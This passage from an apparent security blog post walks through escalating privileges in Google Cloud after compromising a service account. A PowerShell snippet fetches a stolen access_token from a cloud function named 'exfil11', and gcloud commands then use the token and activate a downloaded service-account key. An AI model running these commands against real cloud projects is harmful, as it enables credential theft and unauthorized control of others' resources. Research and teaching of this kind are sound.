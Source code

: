 Finally we can invoke the code and retrieve the *access_token* to use for privilege escalation.

<p>
  <img src="https://github.com/anrbn/blog/blob/main/images/42.1.png">
</p>

### Escalating Privilege to a High Level Service Account

With the access to the *access_token* what can we do? Well, a lot. One being authenticating and accessing various GCP APIs, services and resources, such as Google Cloud Storage, Google Cloud Compute Engine, and Google Kubernetes Engine etc. The gCloud argument --access-token-file let's specify a file which has the *access_token* and then allows you to perform actions and access resources in GCP as the user or service account associated with the token. 

Below is a Powershell Command that will put the the *access_token* into a txt file, to be used later with gCloud.

```powershell
$response = Invoke-WebRequest -Uri "https://us-east1-nnnn-374620.cloudfunctions.net/exfil11" -UseBasicParsing
$jsonResponse = $response | ConvertFrom-Json
$accessToken = $jsonResponse.access_token
$accessToken | Out-File -FilePath "code.txt"
```
Example Usage:

```shell
gcloud projects list --access-token-file=code.txt
gcloud projects list --access-token-file=C:\Users\Administrator\code.txt
```
>You might encounter an error *"ERROR: gcloud crashed (UnicodeDecodeError): 'utf-8' codec can't decode byte 0xff in position 0: invalid start byte"* if you use the above command. This has something to do with the gCloud version in use.

There's another way to make use of *access_token* and that is to download the Service Account Key (Key of the Service Account you just compromised) in JSON format, and then use gCloud to activate the Service Account Key and make requests, access the GCP Resources without any errors. 

[gLess](https://github.com/anrbn/blog/tree/main/tool/gless) communicates to the Identity and Access Management (IAM) API via gRPC and lets you to create and download the Service Account Key in JSON Format. 

Once you've downloaded the JSON Key file for the Service Account you can authenticate and activate it via gCloud. 

Command to Activate the Service Account via gcloud:

```shell
gcloud auth activate-service-account --key-file="C:/Users/Administrator/Downloads/service_account.json" 
```
<p>
  <img src="https://github.com/anrbn/blog/blob/main/images/17.png">
</p>

After you've activated the Service Account, you can now run commands as the activated service account user. If the Service Account has Editor level permission one can perform a wide range of actions on Google Cloud resources without any restrictions.
